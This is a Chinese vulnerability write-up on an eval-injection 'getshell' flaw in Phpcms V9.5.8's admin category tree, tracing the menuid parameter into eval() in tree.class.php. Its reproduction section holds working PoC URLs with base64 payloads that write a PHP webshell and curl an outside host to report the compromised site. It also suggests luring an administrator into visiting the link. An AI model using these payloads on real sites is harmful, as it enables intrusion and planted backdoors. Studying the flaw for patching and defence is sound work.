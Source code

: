 Phpcms V9.5.8 后台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.5.8

三、复现过程
------------

### 漏洞分析

代码位于`/phpcms/modules/content/content.php` 第472-532行

    public function public_categorys() {
        $show_header = '';
        $cfg = getcache('common','commons');
        $ajax_show = intval($cfg['category_ajax']);
        $from = isset($_GET['from']) && in_array($_GET['from'],array('block')) ? $_GET['from'] : 'content';
        $tree = pc_base::load_sys_class('tree');
        if($from=='content' && $_SESSION['roleid'] != 1) { 
            $this->priv_db = pc_base::load_model('category_priv_model');
            $priv_result = $this->priv_db->select(array('action'=>'init','roleid'=>$_SESSION['roleid'],'siteid'=>$this->siteid,'is_admin'=>1));
            $priv_catids = array();
            foreach($priv_result as $_v) {
                $priv_catids[] = $_v['catid'];
            }
            if(empty($priv_catids)) return '';
        }
        $categorys = array();
        if(!empty($this->categorys)) {
            foreach($this->categorys as $r) {
                if($r['siteid']!=$this->siteid ||  ($r['type']==2 && $r['child']==0)) continue;
                if($from=='content' && $_SESSION['roleid'] != 1 && !in_array($r['catid'],$priv_catids)) {
                    $arrchildid = explode(',',$r['arrchildid']);
                    $array_intersect = array_intersect($priv_catids,$arrchildid);
                    if(empty($array_intersect)) continue;
                }
                if($r['type']==1 || $from=='block') {
                    if($r['type']==0) {
                        $r['vs_show'] = "<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=".$r['catid']."&type=show' target='right'>[".L('content_page')."]</a>";
                    } else {
                        $r['vs_show'] ='';
                    }
                    $r['icon_type'] = 'file';
                    $r['add_icon'] = '';
                    $r['type'] = 'add';
                } else {
                    $r['icon_type'] = $r['vs_show'] = '';
                    $r['type'] = 'init';
                    $r['add_icon'] = "<a target='right' href='?m=content&c=content&menuid=".$_GET['menuid']."&catid=".$r['catid']."' onclick=javascript:openwinx('?m=content&c=content&a=add&menuid=".$_GET['menuid']."&catid=".$r['catid']."&hash_page=".$_SESSION['hash_page']."','')><img src='".IMG_PATH."add_content.gif' alt='".L('add')."'></a> ";
                }
                $categorys[$r['catid']] = $r;
            }
        }
        if(!empty($categorys)) {
            $tree->init($categorys);
                switch($from) {
                    case 'block':
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=list' target='right'>\$catname</a> \$vs_show</span>";
                        $strs2 = "<img src='".IMG_PATH."folder.gif'> <a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=category' target='right'>\$catname</a>";
                    break;
     
                    default:
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=content&c=content&a=\$type&menuid=".$_GET['menuid']."&catid=\$catid' target='right' onclick='open_list(this)'>\$catname</a></span>";
                        $strs2 = "<span class='folder'>\$catname</span>";
                        break;
                }
            $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);
        } else {
            $categorys = L('please_add_category');
        }
        include $this->admin_tpl('category_tree');
        exit;
    }

复制 文本

在当前函数开始下个断点

![1.png](./resource/PhpcmsV9.5.8后台getshell/media/rId25.png)![2.png](./resource/PhpcmsV9.5.8后台getshell/media/rId26.png)

跟到526行：

    $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);

复制 文本

进入了`get_treeview()`函数，跟入进去，

函数位于 `/phpcms/libs/classes/tree.class.php` 第206-239行。

    * @param $myid 表示获得这个ID下的所有子级
    * @param $effected_id 需要生成treeview目录数的id
    * @param $str 末级样式
    * @param $str2 目录级别样式
    * @param $showlevel 直接显示层级数，其余为异步显示，0为全部限制
    * @param $style 目录样式 默认 filetree 可增加其他样式如'filetree treeview-famfamfam'
    * @param $currentlevel 计算当前层级，递归使用 适用改函数时不需要用该参数
    * @param $recursion 递归使用 外部调用时为FALSE
    function get_treeview($myid,$effected_id='example',$str="<span class='file'>\$name</span>", $str2="<span class='folder'>\$name</span>" ,$showlevel = 0 ,$style='filetree ' , $currentlevel = 1,$recursion=FALSE) {
         $child = $this->get_child($myid);
         if(!defined('EFFECTED_INIT')){
            $effected = ' id="'.$effected_id.'"';
            define('EFFECTED_INIT', 1);
         } else {
            $effected = '';
         }
         $placeholder =  '<ul><li><span class="placeholder"></span></li></ul>';
         if(!$recursion) $this->str .='<ul'.$effected.'  class="'.$style.'">';
         foreach($child as $id=>$a) {
     
             @extract($a);
             if($showlevel > 0 && $showlevel == $currentlevel && $this->get_child($id)) $folder = 'hasChildren'; //如设置显示层级模式@2011.07.01
             $floder_status = isset($folder) ? ' class="'.$folder.'"' : '';     
             $this->str .= $recursion ? '<ul><li'.$floder_status.' id=\''.$id.'\'>' : '<li'.$floder_status.' id=\''.$id.'\'>';
             $recursion = FALSE;
             if($this->get_child($id)){
                 eval("\$nstr = \"$str2\";");
                 $this->str .= $nstr;
                 if($showlevel == 0 || ($showlevel > 0 && $showlevel > $currentlevel)) {
                     $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);
                 } elseif($showlevel > 0 && $showlevel == $currentlevel) {
                     $this->str .= $placeholder;
                 }
             } else {
                 eval("\$nstr = \"$str\";");
                 $this->str .= $nstr;
             }
             $this->str .=$recursion ? '</li></ul>': '</li>';
         }
         if(!$recursion)  $this->str .='</ul>';
         return $this->str;
     }

复制 文本

这里有个判断：

    if($this->get_child($id))

![3.png](./resource/PhpcmsV9.5.8后台getshell/media/rId27.png)

当第一次执行为ture的时候，还是会再次执行`get_treeview`的内容

    $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);

第二次执行的时候`$myid`由0变成了1，

这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，也就是`${@phpinfo()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@phpinfo()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
